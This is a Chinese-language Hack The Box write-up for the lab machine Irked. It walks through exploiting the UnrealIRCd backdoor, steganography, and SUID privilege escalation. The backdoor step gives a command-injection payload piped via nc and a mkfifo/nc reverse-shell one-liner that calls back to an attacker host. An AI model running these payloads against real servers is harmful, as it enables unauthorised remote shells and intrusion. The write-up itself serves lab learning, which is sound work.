 ```yaml
---
title: Irked Writeup
date: 2020-11-30 22:23:47
category: Hack The Box
---
```


# Irked Writeup

![](./0.png)

## 0x01 信息收集

![](./1.png)


## 0x02 枚举
``` bash
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse 10.10.10.117
```
扫到 unrealircd 后门。
![](./5.png)
> 实际上这里要开启后门只要 nc 命令过去就可以了。**需要登陆吗，待确认**
> ``` bash
> echo "AB; ping -c 4 10.10.14.21;"|nc 10.10.10.117 6697
> ```

## 0x03 立足点
unrealircd 后门利用，执行反弹 shell 命令拿到普通用户 `ircd`权限。
``` bash
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 4444 >/tmp/f &' 10.10.10.117
```
![](./6.png)
`ircd` 并没有 user flag，找到 `djmardov` 用户 `./documents`，无权限打开 `user.txt`，看了 `sudo -l` 没有可以切换的姿势，在 documents 下 `ls -la` 发现隐藏文件 `.backup，cat` 一下是一个 `xxx step backup pw`，像是某个密码，用来 `ssh djmardov@10.10.10.117` 不对，于是 google 一下发现跟 `stephide` 这个工具有关。
`stephide` 是用于将**文件隐藏在图片、音频**的工具。
``` bash
stephide extract -sf irked.jpg -p password  # 提取文件
steghide embed -ef secret.txt -cf irked.jpg # 隐藏文件
# 会被提示输入口令
Enter passphrase:Re-Enter passphrase:embedding "secret.txt" in "irked.jpg"... done
```
提取出来看到 pass.txt，`ssh djmardov@10.10.10.117` 登录成功，拿到 `user.txt`
> TODO:
> 跑一下 LinEnum.sh 看下能不能跑出这个 .backup 文件。

## 0x04 提权
### 1、Apache JSP webshell 
查看 html 目录是否可写，因为这里 apache 是 root 启动，有 webshell 就有 root，但是 /var/www/html 目录不可写。

### 2、SUID 
#### 2.1、exim4
exim4 - 4.84-2 看有提权漏洞，实则兔子洞，很坑。

![](./7.png)
#### 2.2、listusers
另辟蹊径，轻松提权。

![](./10.png)
> 因为这里有提示 `listusers not found`，才会让人注意到这里执行了一个文件 `/tmp/listusers`。
> 假如这个文件存在呢，没有提示，那要怎么知道执行了哪个文件？
> 
> 正确操作应该是把 viewuser 转 b64 提到本地做分析。
> ``` bash
> # 靶机二进制文件转 b64
> base64 -w /usr/bin/viewuser > b.64
> # 下载到本地解码 b64
> base64 -d b.64 > viewuser
> chmod +x viewuser
> strace ./viewuser # 看里面的执行逻辑 - 姿势1 易于阅读
> ltrace ./viewuser # 看里面的执行逻辑 - 姿势2
> ```
> 可以看到执行了具体哪个文件 `system("/tmp/listusers")`，最后做修改替换执行 `/bin/bash`。
> (图)

## 0x05 攻击节点
信息收集 -> nmap 漏洞扫描 -> 6697.unrealircd(ircd) -> viewuser 服务执行文件(root)

## 0x02 学到什么
#### 1、善用 `nmap --script vuln`。
#### 2、警惕兔子洞，走不通要果断放弃，另辟蹊径。